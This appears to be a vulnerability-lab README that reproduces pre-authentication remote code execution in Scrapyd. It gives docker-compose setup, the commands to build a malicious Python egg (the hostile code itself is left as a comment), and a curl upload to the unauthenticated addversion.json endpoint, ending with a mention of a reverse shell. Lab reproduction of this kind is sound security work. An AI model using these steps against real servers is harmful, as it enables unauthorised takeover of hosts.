

# Scrapyd Pre-Auth Remote Code Execution

[中文版本(Chinese version)](README.zh-cn.md)

Scrapyd is an application for deploying and running Scrapy spiders. It enables users to deploy (upload) projects and control their spiders using a JSON API.

References: <https://www.leavesongs.com/PENETRATION/attack-scrapy.html>

## Start server

Execution the following command to start a scrapyd server:

```bash
docker-compose up -d
```

After scrapyd is deployed, the server is listening on `http://your-ip:6800`.

## Reproduce

Build a evil egg archive:

```bash
pip install scrapy scrapyd-client
scrapy startproject evil
cd evil
# edit evil/__init__.py, add evil code
scrapyd-deploy --build-egg=evil.egg
```

Upload evil egg to the scrapyd server:

```bash
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
```

reverse shell is available:


